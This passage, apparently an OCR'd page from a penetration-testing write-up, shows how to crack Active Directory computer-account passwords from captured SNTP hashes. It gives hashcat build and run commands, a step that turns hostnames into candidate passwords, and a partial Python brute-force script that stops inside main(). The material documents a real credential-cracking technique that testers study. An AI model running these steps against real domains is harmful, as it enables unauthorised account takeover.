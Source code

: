 ```terminal?prompt=$
~$ git clone https://github.com/hashcat/hashcat && cd hashcat
~$ git checkout 5236f3bd7 && make

~$ python3
>>> with open('hostnames.txt') as f:
...   hostnames = f.read().splitlines()
>>> with open('hostnames.txt', 'w') as f:
...   f.writelines(f'{x.lower()[:14]}\n' if len(x) >= 15 else f'{x.lower()[:-1]}\n' for x in hostnames)
...

~$ ./hashcat -m31300 -O -a0 -w3 --session=sntp -o sntp.out sntp.in hostnames.txt
```

Or use a trivial Python script. Imho, hashcat is an overkill for such a small-wordlist brute force, so I went for the second option:

```python
#!/usr/bin/env python3
import queue
import hashlib
import threading
from argparse import ArgumentParser
from multiprocessing import cpu_count

def brute_force_worker(hash_queue, result_queue, wordlist=None):
    if wordlist is None:
        user_as_password = True
    else:
        user_as_password = False

    while not hash_queue.empty():
        try:
            line = hash_queue.get_nowait()
            user, _, hash_value, salt = parse_hash_entry(line)

            if user_as_password:
                wordlist = [user.lower().strip('$')[:14]]

            for password in wordlist:
                nthash_bytes = hashlib.new('md4', password.encode('utf-16le')).digest()
                salt_bytes = bytes.fromhex(salt)
                if hashlib.md5(nthash_bytes + salt_bytes).hexdigest() == hash_value:
                    result_queue.put((user, password))
                    break
        except queue.Empty:
            break

def parse_hash_entry(line):
    try:
        user, hash_entry = line.split(':', 1)
        hash_type, hash_value, salt = hash_entry.split('$')[1:]
        return user, hash_type, hash_value, salt
    except ValueError as e:
        print(f'[!] Error parsing line: {line}')

def main(hashes, wordlist=None, thread_count=4):
    with open(hashes) as f:
        hashes = f.read().splitlines()

    hash_queue = queue.Queue()
    for line in hashes:
        hash_queue.put(line.strip())

```